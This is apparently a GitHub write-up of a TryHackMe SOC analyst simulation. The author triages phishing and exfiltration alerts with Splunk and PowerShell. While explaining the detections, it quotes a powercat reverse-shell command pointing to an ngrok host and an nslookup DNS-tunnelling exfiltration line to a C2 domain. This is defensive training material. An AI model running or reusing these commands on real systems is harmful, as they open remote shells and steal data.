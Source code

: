 # TryHackMe SOC analyst simulation

## Objective

The SOC Analyst Simulation Lab was aimed to establish a safe, controlled environment for the replication of the real-world responsibilities of a SOC analyst. The primary focus was to assess and triage alerts from a centralised dashboard, conduct further log and event analysis in Splunk and finally determine whether alerts were true or false positives. This hands-on experience was designed to deepen understanding of Powershell to safely inspect file contents and analyse logs that display the structure of a DNS tunelling attack - not only understanding how it operates but what it aims to achieve. This project strengthened skills in SIEM analysis, incident triage and basic threat hunting, all skills that align closely with daily tasks performed in a SOC environment.

### Skills Learned

- Advanced understanding of SIEM concepts and practical application.
- Development of critical thinking and problem-solving skills in cybersecurity.
- Ability to generate and recognize attack signatures and patterns.
- Enhanced knowledge of network protocols and security vulnerabilities.
- Advanced knowledge of potential malicious powershell commands / scripts

### Tools Used

- Security Information and Event Management (Splunk) system for log ingestion and analysis.
- Powershell to perform OSINT on email file attachments.
- Virtual Lab, to create a sandbox to safely analyse malicious files.
- VirusTotal to check the reputation of email sender's domains.
- Playbook that includes escalation guidelines.

## Steps
- The first screenshot shows the centralised alert dashboard, it displays information such as total alerts, closed alerts, alerts closed as true positives and alerts closed as false positives. On the side bar there are different tools that the user can select, Alert queue, SIEM and analyst VM. There is also some basic documentation, playbooks and case reports.
![Screenshot 2025-04-07 214451](https://github.com/user-attachments/assets/52da7116-5bde-4d62-89ad-ba8b1ebf32b1)
- This screenshot shows all of the current alerts, in order of Severity then Date. The alert queue, allows the user to assign alerts to start the investigation.
![Screenshot 2025-04-07 214546](https://github.com/user-attachments/assets/b76a3053-3ff2-4a69-ab5d-93604a0ee6ff)
- Screenshot shows one of the low severity alerts and is flagged as a potential fishing email. Email is sent from an employee within the IT department and email contains the attachment 'forceupdate.ps1'
![Screenshot 2025-04-07 215911](https://github.com/user-attachments/assets/05896c83-ace1-40fd-959c-0227d00388ad)
- Screenshot of PowerShell script, on a sandboxed virtual machine, 'Get-Content' to safely view the contents of the email. After investigation and anylsis, the conclusion that the script is not harmful and only updates windows and collects diagnostic logs.
![Screenshot 2025-04-07 220344](https://github.com/user-attachments/assets/b7fd2c62-f4d1-4d0c-8239-d1884995d1f8)
- Screenshot shows the closing of the alert as a false positive as zero malicious behaviour was discovered after analysis.
![Screenshot 2025-04-07 221516](https://github.com/user-attachments/assets/8c6d3dc1-cdda-423e-ba16-3ed401608efd)
- Screenshot shows another low severity alert that is flagged as a potential phishing email. Email has an attachment labelled 'ImportantInvoice-February.zip'.
![Screenshot 2025-04-07 221554](https://github.com/user-attachments/assets/2d32ba03-5cc1-434e-8dab-d34373bc2ee3)
- Screenshot shows a PowerShell script on an isolated virtual machine, to unzip the folder and safely examine the contents of the file. 'Expand-Archive' is used to unzip the folder, inside of the unzipped is a file labelled as 'invoice.pdf.lnk'. It is important to note that the file name is 'invoice.pdf', and the actual file extension is .lnk which is the file extension for a shortcut file. This is a common deception tactic used by threat actors, to trick a victim into opening a file that they believe to be non malicious.
![Screenshot 2025-04-07 221700](https://github.com/user-attachments/assets/3a10e0d2-4dfb-411d-9b15-58ed4b293a0f)
- After the command Get-Content is ran on the 'invoice.pdf.lnk' we can see the file contains a powershell script that downloads powercat from github. Powercat is a tool that serves a similar function to netcat. one of the functions of Powercat, and specifically this powershell script, is the ability to establish a reverse shell. From the sceenshot we can see the PowerShell script 'powercat -c 2.tcp.ngrok.io -p 19282 -e powershell' this script serves the function of setting up a reverse PowerShell shell from the victim's machine to a remote server '2.tcp.ngrok.io' using the port 19282, given the threat actor full PowerShell access to the victim's machine. Given all of this information, this alert was able to be marked as a True Positive, and escalated for further analysis and action.
![Screenshot 2025-04-07 221819](https://github.com/user-attachments/assets/69cd3235-a9f6-4085-a4fb-59d283f875f0)
- The next screenshot shows another alert on the alert dashboard, however this particular alert is flagged as medium severity. From the description generated by the alert and the procces.command.line we can see that a network drive was mapped to a local drive with the letter 'Z:' which would require further investigation and analysis of SIEM logs.
![Screenshot 2025-04-07 224120](https://github.com/user-attachments/assets/74b8bab5-c694-4569-8e94-d18f1b2ed94e)
- This screenshot shows a Splunk log from the same host.name as the one that mapped a network drive to a local drive, however this log shows the host creating a file, using PowerShell, within the temp folder, which is commonly used by threat actors as temp folder is writable by regular users and is not normally closely monitored. It is important to note that this file creation happened 2 minutes prior to the mapping of the network drive (the time in the alert dashboard displays 22:03 / 10:03 PM whilst the time in Splunk shows 09:01 PM, this is due to the fact that my Splunk time is formatted to GMT time whislt the alert dashboard was not, these events happened within minutes of eachother not over an hour).
![Screenshot 2025-04-07 224936](https://github.com/user-attachments/assets/11eadfb8-3788-408c-8d91-1bc04068e4c2)
- This next screenshot shows the same user using a command called 'powerview' which is a tool often used by penetration testers and threat actors for data enumeration. In the SIEM log we can see the use of Lighweight Directory Access Protocol (LDAP), this is an example of Active Directory Enumeration, which is apart of the reconnaissance phase for the threat actor to gain more information about the directories on the network system and who has access to these files.
![Screenshot 2025-04-07 225942](https://github.com/user-attachments/assets/ca1008f8-52a5-4d56-9f09-fa5b20d409bf)
- This screenshot shows the SIEM log of the alert that was flagged on the dashboard as medium severity (time of the alert says 09:03 PM and the alert on the dashboard says 10:03 PM, once again this is due to the different time format set up in my Splunk. Given the context that before this network drive was mapped to a local drive, a file was created in the temp folder by the same host using powershell, than the command Powerview was used, just before the drive was mapped, in order to gain more information about the active directory of the system, drastically increases the suspicion this alert.
![Screenshot 2025-04-07 230203](https://github.com/user-attachments/assets/c1c89272-85c5-4aea-8469-c0467152833a)
- Screenshot shows a PowerShell command 'Robocopy.exe' being ran with the flag '/E'. Robocopy is a tool used to efficiently copy files and directories from one directory to another. The log shows the working directory as the 'Z:' drive, which was the local drive that was previously mapped to the network drive labelled as financial records, and all of the data is being copied into a file conveniently labelled as 'exfiltration'.
![Screenshot 2025-04-07 230215](https://github.com/user-attachments/assets/61953c02-4b8e-413b-8154-36249420ca24)
- This screenshot shows the threat actor unmapping the network drive to the local drive 'Z:', in attempt to cover the threat actors tracks.
![Screenshot 2025-04-07 231043](https://github.com/user-attachments/assets/0062ae64-5ebc-4125-80d0-ae221cd21a74)
- Screenshot shows the threat actor creating a zipped file inside of the directory that was used to send all of the copied files using Robocopy.exe. There numerous reasons why a threat actor would zip a file, however the main idea behind zipping a file is to attempt to avoid detection when exfiltrating the data. Zipping a file can significantly reduce the size of a file, allowing for easier exfiltration and reduces the need for multiple exfiltration attempts, zipping a file changes the file extension to .zip, this could help with avoiding detection, if there were security tools in place to scan and detect unusually large .txt files, whereas a .zip file being large may not raise immediate suspicion. Finally, zipping a file could allow the threat actor to apply a password or encryption to the file, making it harder for security tools to access the contents of the file.
![Screenshot 2025-04-07 231059](https://github.com/user-attachments/assets/48631b9a-87b1-49fc-83ab-0d28b2655bf4)
- This screenshot shows the threat actor exfiltrating the data using DNS tunneling. DNS tunneling is a technique in which data is encoded within DNS queires and responses in order to bypass network and security controls. DNS traffic is often always allowed through firewalls and other security measures, making it a reliable way to evade detection whilst carrying out malicious activies such as data exfiltration in this example. In this specific example we can see the PowerShell script "Invoke-Expresion", "nslookup AFBLAwQUAAAACAC90C5XHhl05R8AAA.haz4rdw4re.io" being ran. The specific sub-domain'AFBLAwQUAAAACAC90C5XHhl05R8AAA' is likely where the encoded data is being stored and used to send to the domain 'haz4rdw4re.io' which is likely the C2 server controlled by the threat actor. The threat actor could then see the DNS request made to the server and then decode the exfiltrated data.
![Screenshot 2025-04-07 231213](https://github.com/user-attachments/assets/c7f2d822-c577-4cc2-9245-0a55ee29a2fd)
- Screenshot shows the alert being closed as a True Positive and requiring escalation, due to the severity of the incident and the high possibility of sensitive exfiltrated data. The sceenshot shows the rationale behind the alert being a True Positive (all of the information provided and screenshots beforehand).
![Screenshot 2025-04-07 232841](https://github.com/user-attachments/assets/7bcfcc13-bda8-417d-be73-5e30c821c0c9)
- Final screenshot shows the SOC Simulation Lab being completed and the message 'Security Breach Prevented' after successfully identifying all True Positive Alerts.
![Screenshot 2025-04-08 001331](https://github.com/user-attachments/assets/c4c2964c-86f2-41a7-970c-21f32bb0c61e)






